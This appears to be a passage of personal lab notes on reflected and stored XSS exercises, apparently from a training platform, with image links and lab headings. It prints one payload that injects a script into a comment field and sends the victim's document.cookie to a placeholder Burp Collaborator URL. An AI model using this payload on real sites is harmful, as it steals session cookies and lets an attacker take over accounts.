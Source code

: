 Inject h1 tag in comment, the code accept and execute the code to the FE, pass through the p tag → can inject JS code into comment field

![Untitled](Reflected%20XSS%206579ade954e9409aba5dc0b497c2c3a7/Untitled%2010.png)

PAYLOAD: 

```jsx
<script>document.location = "https://[burpCollaboratorURL]?cookies=" + document.cookie;</script>
```

## LAB 03: ****Exploiting cross-site scripting to capture passwords****

## LAB 04: Reflected XSS into HTML context with most tags and attributes blocked

![Untitled](Reflected%20XSS%206579ade954e9409aba5dc0b497c2c3a7/Untitled%2011.png)
